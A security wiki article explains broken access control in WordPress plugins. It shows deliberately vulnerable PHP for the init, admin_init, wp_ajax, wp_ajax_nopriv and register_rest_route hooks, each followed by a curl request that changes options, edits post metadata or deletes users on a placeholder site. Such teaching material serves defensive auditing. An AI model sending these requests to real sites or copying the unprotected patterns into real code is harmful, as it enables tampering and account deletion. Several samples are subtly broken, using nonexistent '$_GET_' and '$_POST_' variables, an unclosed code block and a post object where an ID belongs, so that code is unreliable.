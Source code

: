 ```yaml
---
title: Broken Access Control
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible Broken Access Control on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to access or update sensitive information.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/wordpress/wordpress-internals/wordpress-functions/#current_user_can) function, and the nonce value check using [`wp_verify_nonce`](/wordpress/wordpress-internals/wordpress-functions/#wp_verify_nonce), [`check_admin_referer`](/wordpress/wordpress-internals/wordpress-functions/#check_admin_referer) or [`check_ajax_referer`](/wordpress/wordpress-internals/wordpress-functions/#check_ajax_referer) functions.


## `init` hook

For more details on the `init` hook, please refer to this [documentation](/wordpress/wordpress-internals/wordpress-hooks/#init-hook).

Example of vulnerable code :

```php
add_action("init", "check_if_update");

function check_if_update(){
    if(isset($_GET["update"])){
        update_option("user_data", sanitize_text_field($_GET_["data"]));
    }
}

To exploit this, unauthenticated user just need to visit the front page of a WordPress site and specify the parameter to trigger the `update_option` function which in this case will modify sensitive information.

```bash
curl <WORDPRESS_BASE_URL>/?update=1&data=test
```

## `admin_init` hook

For more details on the `admin_init` hook, please refer to this [documentation](/wordpress/wordpress-internals/wordpress-hooks/#admin_init-hook).

Example of vulnerable code :

```php
add_action("admin_init", "delete_admin_menu");

function delete_admin_menu(){
    if(isset($_POST_["delete"])){
        delete_option("custom_admin_menu");
    }
}
```

To exploit this, the unauthenticated user just needs to perform a POST request to the `admin-ajax.php` and `admin-post.php` endpoint specifying the needed parameter to trigger the `delete_option` function to remove sensitive data.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat -d "delete=1"
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/wordpress-hooks/#wp_ajax_action-hook).

Example of vulnerable code :

```php
add_action("wp_ajax_update_post_data", "update_post_data");

function update_post_data(){
    if(isset($_POST_["update"])){
        $post_id = get_post($_GET["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, any authenticated user (**Subscriber+** role) just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_post_meta` function to update arbitrary WP Post metadata.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_post_data&update=1 -d "id=1&data=changed"
``` 

## [`wp_ajax_nopriv_{$action}`](https://developer.wordpress.org/reference/hooks/wp_ajax_nopriv_action/) hook

For more details on the `wp_ajax_nopriv_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/wordpress-hooks/#wp_ajax_nopriv_action-hook).

Example of vulnerable code :

```php
add_action("wp_ajax_nopriv_toggle_menu_bar", "toggle_menu_bar");

function toggle_menu_bar(){
    if ($_POST_["toggle"] === "1"){
        update_option("custom_toggle", 1);
    }
    else{
        update_option("custom_toggle", 0);
    }
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_option` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=toggle_menu_bar -d "toggle=1"
``` 

## `register_rest_route` function

For more details on the `register_rest_route` function, please refer to this [documentation](/wordpress/wordpress-internals/wordpress-functions/#register_rest_route-function).

Sometimes, developers don't implement a proper permission check on the custom REST API route and use `__return_true` string as the permission callback. This makes the custom REST API route to be publicly accessible.

```php
add_action( 'rest_api_init', function () {
  register_rest_route( 'myplugin/v1', '/delete/author', array(
    'methods' => 'POST',
    'callback' => 'delete_author_user',
    'permission_callback' => '__return_true',
  ) );
} );

function delete_author_user($request){
    $params = $request->get_params();
    wp_delete_user(intval($params["user_id"]));
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-json/myplugin/v1/delete/author` endpoint specifying the needed parameter to trigger the `wp_delete_user` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/delete/author -d "user_id=1"
``` 

Other cases could exist where developers already specify a proper function on the `permission_callback` parameter, however, the permission check implemented inside the function itself is not proper to what process can be done from the REST API route `callback` function.